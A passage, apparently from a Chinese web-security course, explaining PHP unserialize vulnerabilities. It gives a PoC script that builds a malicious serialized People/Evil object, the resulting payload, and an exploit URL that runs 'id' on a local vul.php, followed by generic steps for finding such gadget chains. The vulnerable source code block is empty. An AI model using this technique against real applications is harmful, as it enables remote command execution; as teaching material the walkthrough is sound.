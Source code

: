 ```php
```

先分析下代码，$_GET\['str'\] 获取 get 参数 str 值，然后传递给 unserialize 进行反序列化操作，这就是导致漏洞的地方。

那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法 run()，如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类的 __construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。

同时，在 __destruct 方法中有调用 run() 方法的操作，因此我们可以设法此这些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。

poc.php 利用代码如下：

```php
<?php
  class People {
    private $type;

    function __construct(){
      $this->type = new Evil();
    }
  }
  class Evil {
    var $cmd = 'id';
  }
  $people = new People();
  $str = serialize($people);
  echo $str;
?>
```

运行生成序列化字符串：

```java
$ php poc.php
O:6:"People":1:{s:12:"Peopletype";O:4:"Evil":1:{s:3:"cmd";s:2:"id";}}
```

里面的 "Peopletype" 又被吃掉 \\x00 了，得补回去，然后将上述字符串作为 get 参数 $str 的值发送给 vul.php：

```java
http://127.0.0.1/vul.php?str=O:6:%22People%22:1:{s:12:%22%00People%00type%22;O:4:%22Evil%22:1:{s:3:%22cmd%22;s:2:%22id%22;}}
```


<Image alt="Lark20210121-180531.png" src="https://s0.lgstatic.com/i/image/M00/8F/E1/Ciqc1GAJUtSAOq4oAAFC9pGx2M8332.png"/> 
  
图 1 成功利用反序列化漏洞执行任意命令

总结下利用思路：

1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec 等危险函数的地方，正如示例中的 Evil 类；

2. 追踪调用第 1 步中方法的其他类方法/函数，正如示例中 People 类方法 __destruct()；

3. 寻找可控制第 1 步方法的参数的其他类方法函数，正如示例中 People 类方法 __construct()；

4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串；

5. 将生成的序列化字符串传递给漏洞参数实现利用。
